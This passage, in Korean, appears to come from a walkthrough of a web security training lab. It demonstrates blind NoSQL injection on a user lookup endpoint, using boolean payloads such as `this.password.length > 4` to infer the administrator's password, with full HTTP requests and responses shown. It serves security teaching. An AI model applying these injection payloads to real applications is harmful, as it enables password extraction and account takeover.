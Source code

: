유저를 찾을 수 없다는 메세지가 회신됐다. 이는 `this.password.match(/\d/)`가 False로 처리되었음을 의미한다. 즉, 패스워드에는 숫자가 포함되어 있지 않은 것이다. 

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 38

{
  "message": "Could not find user"
}
```


## 패스워드 길이 확인
그러면 다음으로 패스워드의 길이를 알아내보자. 패스워드의 길이를 알면 패스워드의 문자를 하나씩 알아내는 작업을 몇 번해야하는지 판단할 수 있다. 

자바스크립트에서 길이는 `문자열변수.length` 로 확인할 수 있다. 


페이로드  `administrator' && this.password.length > 4 || 'a'=='b` 를 테스트해본다. 

http요청은 다음과 같다. 

```http
GET /user/lookup?user=administrator%27%20%26%26%20this.password.length%20%3E%204%20||%20%27a%27==%27b HTTP/2
Host: 0aa700fd034c830d81cad4a300640087.web-security-academy.net
Cookie: session=tEl6FiREhuIvrPyCDJMkLiV7NsZk1byw
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7


```

응답은 다음과 같았다. 이는 `this.password.length > 4`의 결과가 True임을 의미한다. 패스워드는 네 자리 이상인 것을 알았다. 

```http
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 96

{
  "username": "administrator",
  "email": "admin@normal-user.net",
  "role": "administrator"
}
```
